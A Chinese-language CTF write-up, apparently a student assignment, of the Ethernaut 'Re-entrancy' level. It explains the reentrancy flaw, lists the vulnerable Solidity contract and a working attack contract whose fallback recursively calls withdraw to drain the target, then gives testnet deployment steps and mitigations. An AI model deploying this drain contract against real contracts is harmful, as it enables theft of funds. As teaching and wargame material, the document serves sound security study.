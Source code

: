 # Re-entrancy writeup
姓名：谌翔 学号：517021910947 邮箱：cascades@sjtu.edu.cn
[toc]
## 描述
* 目标：从合约中偷走所有的钱
* 提示：
    * 合约可以在你最不期待的地方执行代码：Fallback函数
    * 通过另一个合约来攻击这个合约：使用remix ide新建一个合约来与题目交互（不是像前几题一样可以用js console）

## 步骤
### 漏洞原理
* 在顺序执行的模式中，交叉调用的函数可能引起递归。当递归是withdraw函数时，攻击合约会一直提取，直到账户余额低于每次提取的额度。漏洞利用流程见下图：
![](https://miro.medium.com/max/3724/1*HGRY9Lbox56-o9nbCgBepg.jpeg)

* [The DAO Hack](https://www.gemini.com/cryptopedia/the-dao-hack-makerdao)
### 查看合约代码
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    // 目标账户是否有足够资产
    if(balances[msg.sender] >= _amount) {
      // 进行提币操作，可以恶意递归调用的地方
      (bool result, bytes memory data) = msg.sender.call.value(_amount)("");
      if(result) {
        _amount;
      }
      // 修改目标账户的资产，在目标账户资产被全部转走之前不会被执行
      balances[msg.sender] -= _amount;
    }
  }

  fallback() external payable {}
}
```
### 漏洞利用
1. 花费1 ether生成实例，得到目标合约地址：0xd991431d8b033ddcb84dad257f4821e9d5b38c33
    此时，目标账户上有1 ether
3. 创建攻击合约reenter.sol
```sol
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to]+msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}

contract ReentrancePoc {

    Reentrance reInstance;

    function getEther() public {
        msg.sender.transfer(address(this).balance);
    }

    function ReentrancePoc(address _addr) public{
        reInstance = Reentrance(_addr);
    }
    function callDonate() public payable{
        reInstance.donate.value(msg.value)(this);
    }

    function attack() public {
        // 递归调用withdraw函数
        reInstance.withdraw(1 ether);
    }

  function() public payable {
      if(address(reInstance).balance >= 1 ether){
        reInstance.withdraw(1 ether);
      }
  }
}    
```
3. 通过rinkeby测试网络将合约ReentrancePoc部署到目标地址上

4. 给部署后的合约地址转账1 ether，让被攻击合约通过第一个判断，此时查看被攻击合约的余额为2

5. 调用attack方法，进行攻击。在攻击后通过`await getBalance(contract.address)`查看被攻击合约的余额变为0

6. 提交实例

## 安全措施

* 使用`Checks-Effects-Interactions`pattern
* 不使用`transfer`和 `send`方法
[15 lines of code that could have prevented TheDAO Hack.](https://consensys.net/diligence/blog/2019/09/stop-using-soliditys-transfer-now)
* 永远假设资金收款人是另一个合约，而不是普通地址


## 参考链接
攻击环境：http://remix.app.hubwiz.com/
exp：https://xz.aliyun.com/t/7174